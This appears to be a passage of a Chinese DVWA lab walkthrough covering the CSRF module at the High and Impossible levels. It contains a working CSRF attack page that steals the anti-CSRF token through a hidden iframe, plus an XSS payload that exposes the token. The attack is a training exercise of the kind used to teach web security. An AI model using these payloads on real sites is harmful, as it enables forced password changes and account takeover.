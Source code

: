 > High加入了generateSessionToken()函数，每次用户访问改密页面时，服务器会返回一个随机的token。因为每次向服务器发起请求时，需要提交token参数，服务器在收到访问请求时，会优先检查token，只有token正确，才会处理客户端发起的请求。

#### 漏洞利用
绕过此次反csrf机制，需要获取受害者的token值，利用此token值去修改密码页面的token值。

###### 0x01构造攻击页面

```html
<script type="text/javascript">
    function attack()
  {
   document.getElementsByName('user_token')[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;
  document.getElementById("transfer").submit(); 
  }
</script>

<iframe src="http://****/dvwa/vulnerabilities/csrf" id="hack" border="0" style="display:none;">
</iframe>

<body onload="attack()">
  <form method="GET" id="transfer" action="http://****/dvwa/vulnerabilities/csrf">
   <input type="hidden" name="password_new" value="password">
   <input type="hidden" name="password_conf" value="password">
   <input type="hidden" name="user_token" value="">
   <input type="hidden" name="Change" value="Change">
  </form>
</body>
```
PS：攻击思路是当受害者点击进入这个页面，脚本会通过一个看不见框架偷偷访问修改密码的页面，获取页面中的token，并向服务器发送改密请求，以完成CSRF攻击。

**但是浏览器有一个同源策略（是一种约定，它是浏览器最核心也最基本的安全功能，当一个浏览器的两个tab页中分别打开百度和谷歌的页面时，当浏览器的百度tab页执行一个脚本的时候会检查这个脚本是属于哪个页面的，即检查是否同源，只有和百度同源的脚本才会被执行。 如果非同源，那么在请求数据时，浏览器会在控制台中报一个异常，提示拒绝访问。不同源的客户端脚本在没有明确授权的情况下，不能读写对方资源。所以google.com下的js脚本采用ajax读取baidu.com里面的文件数据是会报错的。）。因为我们的ifame访问的是http://* * * */dvwa/vulnerabilities/csrf，这是漏洞网站的服务器的链接。而我们的脚本执行的位置是我们自己的服务器，因此攻击脚本不能实现跨域取到改密界面的token。 **

![](https://img-blog.csdn.net/20181003131306774?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

###### 反弹token
因为不能实现跨域，所以我们就想到将我们的脚本注入到目标服务器，因此就需要用到XSS漏洞一起结合。
```html
<iframe src="../csrf/" onload=alert(frames[0].document.getElementsByName('user_token')[0].value)></iframe>
```
将上述代码插入到数据库中，这个语句就会弹出用户的token。

## Impossible
#### 源码
```php
<?php 

if( isset( $_GET[ 'Change' ] ) ) { 
    // Check Anti-CSRF token 
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' ); 

    // Get input 
    $pass_curr = $_GET[ 'password_current' ]; 
    $pass_new  = $_GET[ 'password_new' ]; 
    $pass_conf = $_GET[ 'password_conf' ]; 

    // Sanitise current password input 
    $pass_curr = stripslashes( $pass_curr ); 
    $pass_curr = mysql_real_escape_string( $pass_curr ); 
    $pass_curr = md5( $pass_curr ); 
```